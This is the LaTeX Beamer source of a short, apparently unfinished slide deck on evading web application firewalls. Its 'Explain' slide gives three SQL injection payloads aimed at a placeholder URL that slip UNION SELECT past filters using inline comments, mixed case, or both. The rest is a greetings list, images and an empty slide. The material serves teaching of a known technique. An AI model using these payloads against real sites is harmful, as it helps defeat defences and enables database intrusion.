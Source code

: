 \documentclass[serif,mathserif]{beamer}
\begin{document}
\begin{frame}
  \frametitle{The Overview}
  \begin{figure}[]    
    \centering
    \texttt{[image: images/codeview.png]} 
  \end{figure}
\end{frame}


\begin{frame}
  \frametitle{Explain}
  WAF stands for Web Application Firewall. It is widely used nowadays to detect and defend SQL Injections and XSS...
  \begin{itemize}
  \item You can use comments to bypass WAF: http://www.site.com/index.php?page\_id=-15 /*!UNION*/ /*!SELECT*/ 0,1,2,3... 
  \item You can also change the Case of the Command: http://www.site.com/index.php?page\_id=-15 UnIoN sELecT 0,1,2,3...
  \item You can combine methods: http://www.site.com/index.php?page\_id=-15 /*!uNIOn*/ /*!sElECt*/ 0,1,2,3….
  \end{itemize}
\end{frame}


\begin{frame}
  \frametitle{The End}
  \begin{figure}[]    
    \centering
    \includegraphics[width=6cm]{images/loboovelha.jpg} 
  \end{figure}
\end{frame}




\begin{frame}
  \frametitle{Greets}
  \begin{itemize}
  \item IAK, Sigsegv, M0nad, Slyfunky , RaphaelSC, pl4nkton, gustavoRobertux, Muzgo, Mente binaria, Otacon...
  \item HB, F-117, Eremita, Clandestine, Loganbr, Geyslan, Clodonil Trigo...
  \item my parents and friends...
  \item https://conviso.com.br/index.php/EN
  \end{itemize}
\end{frame}

\begin{frame}
  \frametitle{at construction...}
\end{frame}
\end{document}
